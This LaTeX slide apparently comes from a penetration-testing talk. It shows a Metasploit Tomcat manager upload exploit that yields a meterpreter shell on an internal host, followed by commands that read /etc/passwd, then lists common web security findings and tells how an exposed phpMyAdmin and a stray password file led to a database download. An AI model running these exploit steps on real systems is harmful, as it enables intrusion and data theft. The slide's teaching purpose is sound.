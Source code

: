 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{alltt}\scriptsize
msf > use exploit/multi/http/tomcat_mgr_upload

meterpreter > sysinfo
Computer    : solr4-prod-xxxxx.internal
OS          : Linux 4.15.0-1098-gcp (amd64)
Meterpreter : java/linux
meterpreter > shell
Process 1 created.
Channel 1 created.

whoami
tomcat7

id
uid=114(tomcat7) gid=118(tomcat7) groups=118(tomcat7)
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
\end{alltt}

\begin{list2}
    \item Gooooddammmit! Its easy being a hacker I used ready made Metasploit, tomcat modules and deployed my own application that allowed command line access to the server.

\end{list2}




We typically see:
\begin{list2}
\item Libraries in web applications not updated JQuery especially
\item TLS settings still have TLS version 1.0 and 1.1 enabled -- recommend only 1.2 and 1.3
\item Cookies without \verb+secure+ and -verb+http only+ flags -- easy to fix
\item SQL injections also still seen -- 2020/2021/2022
\item Old PHP versions seen PHP5 even! PHP7
\item Errors shown to the user -- helps an attacker prepare better requests
\end{list2}

Some of these can be identified by just running Nikto from Kali! Do it!


Also seen in web application security testing:
\begin{list2}
\item File with passwords to the solution, helpful "I left the passwords in the web root folder"
\item Same server also had a nice debug.log in the root, with PHP errors so helpful for checking requests
\item Webserver with PHPMyAdmin
\begin{enumerate}
\item This admin tool for MySQL databases was on port 80
\item Then on port 8080 a nice file available with password
\item Return to port 80 with browser - access admin tool
\item Download databse, {\bf took less than 10 minutes!}
\end{enumerate}
\end{list2}
\end{document}
